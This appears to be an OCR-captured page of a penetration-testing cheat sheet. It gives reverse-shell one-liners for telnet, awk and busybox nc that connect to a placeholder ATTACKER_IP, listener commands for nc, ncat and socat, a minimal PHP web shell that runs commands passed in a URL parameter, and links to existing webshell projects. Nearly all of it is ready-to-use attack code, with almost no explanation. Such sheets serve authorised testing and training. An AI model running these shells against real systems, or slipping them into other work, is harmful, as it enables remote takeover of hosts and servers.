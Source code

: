 

- telnet
```sh
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
```
  

- awk

```sh
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
  

- busy box
```sh
busybox nc ATTACKER_IP 443 -e sh
```


## Shell variations
  
```sh
# Simple listener
nc lvnp 4444

# allows bash history and arrow keys
rlwrap nc -lvnp 443


# improved nc
ncat -lvnp 4444

# reverse shell with encryption
ncat --ssl -lvnp 4444

# socket connection
socat -d -d TCP-LISTEN:443 STDOUT
```

- Web shell
```php

<?php

if (isset($_GET['cmd'])) {
	system($_GET['cmd']);
}
?>
```
  
**existing webshells:**

1. [**https://github.com/flozz/p0wny-shell**](https://github.com/flozz/p0wny-shell)
2. [**https://github.com/b374k/b374k**](https://github.com/b374k/b374k)
3. [**https://www.r57shell.net/single.php?id=13**](https://www.r57shell.net/single.php?id=13)
4. **list of webshells:** [**https://www.r57shell.net/index.php**](https://www.r57shell.net/index.php)
